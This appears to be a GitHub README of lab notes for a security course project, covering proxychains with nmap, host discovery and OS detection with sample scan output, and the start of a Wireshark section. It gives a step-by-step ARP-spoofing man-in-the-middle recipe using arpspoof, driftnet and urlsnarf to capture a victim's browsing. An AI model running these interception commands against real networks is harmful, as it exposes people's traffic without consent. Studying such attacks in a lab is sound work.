

## Repo for scripts and notes for ADT project

1. Proxy chaining

    
  ```
  sudo apt-get install proxychains
  ```
 
  - copy `proxychains.conf` into `/etc/proxychains.conf`

  - when running `nmap` use proxy chaining as follows:
    
  ```
  sudo proxychains nmap -sT SOME_IP_ADDRESS
  ```

2. Port scanning
  
  1. Make sure if using 2 VM machines they are connected to Internet using
     Bridge (Automatic) option
  2. At first run `sudo netdiscover` to find all IP address
    

  3. For all IP address run `./detect_os.sh netdiscover_results.txt out.txt` to detect OS
  ```
    Read data files from: /usr/bin/../share/nmap
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sun Nov  1 14:41:26 2020 -- 1 IP address (1 host up) scanned in 40.54 seconds
    # Nmap 7.80 scan initiated Sun Nov  1 14:41:26 2020 as: nmap -T4 -A -v --append-output -oN out.txt 192.168.0.21
    Nmap scan report for 192.168.0.21
    Host is up (0.00057s latency).
    Not shown: 999 closed ports
    PORT     STATE SERVICE  VERSION
    5555/tcp open  freeciv?
    | fingerprint-strings: 
    |   adbConnect: 
    |     CNXN
    |_    device::ro.product.name=android_x86;ro.product.model=VMware Virtual Platform;ro.product.device=x86;features=stat_v2,cmd,shell_v2
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port5555-TCP:V=7.80%I=7%D=11/1%Time=5F9EBB17%P=x86_64-pc-linux-gnu%r(ad
    SF:bConnect,98,"CNXN\x01\0\0\x01\0\x10\0\0\x80\0\0\0\xfc/\0\0\xbc\xb1\xa7\
    SF:xb1device::ro\.product\.name=android_x86;ro\.product\.model=VMware\x20V
    SF:irtual\x20Platform;ro\.product\.device=x86;features=stat_v2,cmd,shell_v
    SF:2");
  ```

3. Man in the Middle attack
  - Enable packet forwarding `sysctl -w net.ipv4.ip_forward=1` and `sysctl -w net.ipv6.conf.all.forwarding=1`
  - Intercept packages from victim: `arpspoof -i [Network Interface Name] -t [Target IP] [Router IP]`
    to check [Network Interface Name] and [Router IP] run `ip route show`, the final command should be similar to `arpspoof -i eth0 -t 192.168.0.17 192.168.0.1`
  - Intercept package from router: `arpspoof -i [Network Interface Name] -t [Router IP] [Target IP]`
  - Sniff images from victim navigation: `driftnet -i [Network Interface Name]`
  - Sniff URLs information from victim navifation: `urlsnarf -i [Network
    Interface Name]`
  - Finally disable packet forwarding: `sysctl -w net.ipv4.ip_forward=0` and `sysctl -w net.ipv6.conf.all.forwarding=0`
 

4. Wireshark
  - Let's say we want to know what our victim is doing on specific page (and we
    know IP of that server). We can filter our results by _source_ and
destination_:

    
